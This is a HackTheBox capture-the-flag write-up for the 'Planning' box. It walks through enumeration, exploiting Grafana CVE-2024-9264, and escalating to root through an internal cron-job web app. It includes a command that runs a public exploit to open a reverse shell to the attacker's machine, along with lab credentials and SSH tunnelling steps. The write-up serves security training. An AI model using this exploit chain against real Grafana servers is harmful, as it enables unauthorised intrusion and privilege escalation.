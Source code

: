 #  HackTheBox: Planning - Writeup
This easy-difficulty box involves discovering a vulnerable Grafana v11.0.0 subdomain and exploiting CVE-2024-9264 for initial access. After pivoting to the user enzo, an internal cronjob web app running as root is accessed via SSH tunneling. Abusing this app allows privilege escalation to root. The box combines web enumeration, real-world CVE usage, and creative privesc via scheduled tasks.


##  Enumeration

### Nmap Scan

We begin with an `nmap` scan, which reveals two open ports:  
- **22** (SSH)  
- **80** (nginx web server)

```bash
nmap -sCV -T4 10.10.11.68
```
### Directory Enumeration
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image002.png)

Upon enumeration of the directories on the web server, nothing of significance comes up.
```bash
gobuster dir -u http://planning.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --timeout 20s -x html,php
```
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image004.png)

### Subdomain Enumeration
So, ffuf is used to look for any subdomains the web page might have, and it comes up with Grafana.planning.htb.
```bash
ffuf -w ../../seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -H "Host:FUZZ.planning.htb" -fc 301 -t 100
```
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image005.png)
 
After discovering the subdomain grafana, it is appended to the hosts file, so we’re able to access it. 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image007.png)

## Exploitation
Going into the webpage, we see it runs V11.0.0 which is vulnerable to RCE (CVE-2024-9264).
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image009.png)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image011.png)
 
We then use an exploit found on github by z3k0sec, which allows us to RCE into the system using reverse shell.

```bash
Git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image013.png)

The script is then executed and a listener is set up.

Note: To run the script, you will have to install the requests module through pip (pip install requests), in a python virtual environment.
```bash
python3 poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.x --reverse-port 1234
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image015.png)

## Post-Exploitation
  
Upon gaining access to the system, we are root but this user doesn’t contain either of the flags, so linPEAS is ran to look for any sensitive information.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image017.png)

### linPEAS Enumeration (root User)

Upon running linPEAS, the password for the user ‘enzo’ is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image019.png)

Able to SSH into enzo, the user flag is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image021.png)

### linPEAS Enumeration (enzo User)

linPEAS is ran again, this time in enzo’s user to look for any sensitive files. After which we see some database files.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image023.png)

Exploring the crontab.db, we find a password for the root user. Looking for active connections, we see a webserver being hosted at port 8000.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image025.png)

### SSH Tunneling

Using SSH tunnelling we host it in our own machine, at port 8001. It requires a username and password, available from the crontab.db database.
```bash
ssh -L 8001:localhost:8000 enzo@10.10.11.68
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image027.png)

## Privelege Escalation

The website functions as a cronjobs simulator, executing tasks at a certain time as root. From here we can privilege escalate the enzo’s user as sudo, gaining root privileges.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image029.png)

After obtaining privileges we are able to obtain the root flag.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image031.png)
